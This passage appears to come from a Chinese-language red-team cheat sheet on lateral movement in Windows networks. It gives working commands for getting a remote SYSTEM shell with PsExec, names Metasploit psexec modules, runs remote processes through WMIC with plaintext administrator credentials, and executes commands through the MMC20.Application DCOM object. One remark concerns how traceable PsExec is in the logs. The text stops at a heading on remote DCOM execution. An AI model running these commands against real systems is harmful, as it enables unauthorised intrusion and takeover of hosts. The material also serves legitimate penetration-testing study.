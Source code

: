 ```sh
# 在建立ipc$的情况下，获取交互式shell
Psexec.exe -accepteula \\<目标IP> -s cmd.exe
-accepteula 屏蔽确认弹窗
-s 以system权限运行，不加返回一个administrator的shell
# 没有建立IPC连接
Psexec.exe -accepteula \\<目标IP> -u administrator -p <密码> -s cmd.exe
```

**注意点**：

- 远程需要开启admin$共享（默认开启）
- 在使用`ipc$`连接目标系统后，不需要输入账号密码
- 会产生大量日志，容易被溯源
- 可以直接获得system交互式shell

**MSF中的利用**

- `exploit/windwos/smb/psexec`

- `exploit/windwos/smb/psexec_psh`

# WMI使用

```powershell
wmic /node:192.168.1.4 /user:administrator /password:123456!@# process call create "cmd.exe /c ipconfig >ip.txt"
type \\192.168.1.4\C$\ip.txt  

# 通过一些工具远程执行命令
```

# DCOM使用

DCOM（分布式组件对象模型）是微软的一系列概念和程序接口。通过DCOM，客户端程序对象能够像网络中的另一台计算机上的服务器程序对象发送请求。

DCOM是基于组件对象模型（COM）的，COM提供了一套允许在同一台计算机上的客户端和服务器之间进行通信的接口

## 通过本地DCOM执行命令

```powershell
# 获取DCOM程序列表
## Windows Server2012 及以上版本的操作系统（Powershell3.0）
Get-CimInstance Win32_DCOMApplication
## powerShell2.0
Get-WmiObject -Namespace ROOT\CIMV2 -Class Win32_DCOMApplication

# 使用DCOM本地执行任意命令
$com=[activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","127.0.0.1"))
$com.Document.ActiveView.ExecuteShellCommand('cmd.exe',$null,"/c calc.exe","Minimzed")
```

## 使用DCOM在远程机器执行命令

